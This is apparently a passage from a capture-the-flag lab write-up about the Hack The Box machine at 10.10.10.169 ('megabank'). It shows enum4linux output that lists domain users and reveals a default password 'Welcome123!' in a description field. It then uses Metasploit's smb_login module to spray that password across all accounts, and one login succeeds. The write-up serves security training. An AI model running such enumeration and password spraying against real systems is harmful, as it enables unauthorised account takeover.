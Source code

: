 ```bash
index: 0x10b6 RID: 0x19d0 acb: 0x00000010 Account: gustavo	Name: (null)	Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0x10b1 RID: 0x19cb acb: 0x00000010 Account: marcus	Name: (null)	Desc: (null)
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak	Desc: Account created. Password set to Welcome123!
index: 0x10c0 RID: 0x2775 acb: 0x00000010 Account: melanie	Name: (null)	Desc: (null)
index: 0x10c3 RID: 0x2778 acb: 0x00000010 Account: naoki	Name: (null)	Desc: (null)
index: 0x10ba RID: 0x19d4 acb: 0x00000010 Account: paulo	Name: (null)	Desc: (null)
index: 0x10be RID: 0x19d8 acb: 0x00000010 Account: per	Name: (null)	Desc: (null)
index: 0x10a3 RID: 0x451 acb: 0x00000210 Account: ryan	Name: Ryan Bertrand	Desc: (null)
index: 0x10b2 RID: 0x19cc acb: 0x00000010 Account: sally	Name: (null)	Desc: (null)
index: 0x10c2 RID: 0x2777 acb: 0x00000010 Account: simon	Name: (null)	Desc: (null)
index: 0x10bb RID: 0x19d5 acb: 0x00000010 Account: steve	Name: (null)	Desc: (null)
index: 0x10b8 RID: 0x19d2 acb: 0x00000010 Account: stevie	Name: (null)	Desc: (null)
index: 0x10af RID: 0x19c9 acb: 0x00000010 Account: sunita	Name: (null)	Desc: (null)
index: 0x10b7 RID: 0x19d1 acb: 0x00000010 Account: ulf	Name: (null)	Desc: (null)
index: 0x10c1 RID: 0x2776 acb: 0x00000010 Account: zach	Name: (null)	Desc: (null)


```

enum4linux generates a lot of information. Under `Users` we find an interesting description for the user Marko: 

> Desc: Account created. Password set to Welcome123!

If we try logging into the SMB service as Marko it fails. We can assume that Welcome123! is used as a default password by a lazy admin, so lets try it against all of the users. An easy way to do this is to use the auxiliary/scanner/smb/smb_login module in metasploit.

```bash
msf5 > use auxiliary/scanner/smb/smb_login

[*] 10.10.10.169:445      - 10.10.10.169:445 - Starting SMB login bruteforce
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\userlist::Welcome123!',
[!] 10.10.10.169:445      - No active DB -- Credential data will not be saved!
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\Administrator:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\Guest:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\krbtgt:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\DefaultAccount:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\ryan:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\marko:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\sunita:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\abigail:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\marcus:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\sally:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\fred:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\angela:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\felicia:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\gustavo:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\ulf:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\stevie:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\claire:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\paulo:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\steve:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\annette:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\annika:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\per:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\claude:Welcome123!',
[+] 10.10.10.169:445      - 10.10.10.169:445 - Success: 'megabank\melanie:Welcome123!'
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\zach:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\simon:Welcome123!',
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\naoki:Welcome123!',
[*] 10.10.10.169:445      - Scanned 1 of 1 hosts (100% complete)
```